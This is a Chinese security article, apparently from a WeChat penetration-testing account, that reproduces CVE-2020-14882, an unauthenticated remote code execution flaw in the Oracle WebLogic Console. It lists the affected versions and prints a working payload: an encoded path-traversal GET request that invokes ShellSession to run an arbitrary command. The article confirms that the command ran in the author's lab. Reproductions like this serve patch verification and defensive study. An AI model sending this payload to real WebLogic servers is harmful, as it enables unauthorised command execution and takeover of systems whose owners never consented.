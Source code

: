 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/H1A8tmN-EscOFQjifbjkpg)

**点击蓝字 ·  关注我们**

**01**

简介：  

WebLogic 是美国 Oracle 公司出品的一个 application server，确切的说是一个基于 JAVAEE 架构的中间件，WebLogic 是用于开发、集成、部署和管理大型分布式 Web 应用、网络应用和数据库应用的 Java 应用服务器。将 Java 的动态功能和 Java Enterprise 标准的安全性引入大型网络应用的开发、集成、部署和管理之中。

**02**

**漏洞概述**

在 Oracle 官方发布的 2020 年 10 月关键补丁更新公告 CPU（Critical Patch Update）中，包含一个存在于 Weblogic Console 中的高危远程代码执行漏洞 CVE-2020-14882。

该漏洞能够在无需身份验证的情况下被触发，影响面较大。

未经身份验证的远程攻击者可能通过构造特殊的 HTTP GET 请求，利用该漏洞在受影响的 WebLogic Server 上执行任意代码。

官方给出的 CVSS 评分为 9.8。

**03**

漏洞影响范围  

Oracle Weblogic Server 10.3.6.0.0

Oracle Weblogic Server 12.1.3.0.0

Oracle Weblogic Server 12.2.1.3.0

Oracle Weblogic Server 12.2.1.4.0

Oracle Weblogic Server 14.1.1.0.0

**04**

漏洞复现

我在本地搭建了 12.2.1.3.0 版本的 weblogic 访问 http://ip:7001/console

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgelNPrShLbUV3v7DmvliaARuhtKtaC7hYcYKunMxcdCZK7HOttqgWGIkFNvZYHiaT2dLUpiadB2mtgK1g/640?wx_fmt=png)

环境搭建成功

Payload：

```
/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27你想执行的命令%27);%22);
```

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgelNPrShLbUV3v7DmvliaARuh18YzDvGJMJPMTeuL2TEqa49VCQ3vynp6F8BoYlMlKAk9NiaYswXmoqw/640?wx_fmt=png)

回到服务器查看 / tmp 文件夹下 edisec 文件已经创建

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgelNPrShLbUV3v7DmvliaARuhTxtVxpqgbgSCzJ17Ad366NqUnb77mpo9SKTMHLwHENTfmiaR5aSfxcg/640?wx_fmt=png)

说明命令执行成功

**EDI 安全**

![](https://mmbiz.qpic.cn/mmbiz_jpg/rJALXSMzgelNPrShLbUV3v7DmvliaARuhg0sfy1UIYYpdweDCtlJr6czFXnpGibone1depNoibZjTMzSwiaIQcRkwg/640?wx_fmt=jpeg)

**扫二维码｜关注我们**

一个专注渗透实战经验分享的公众号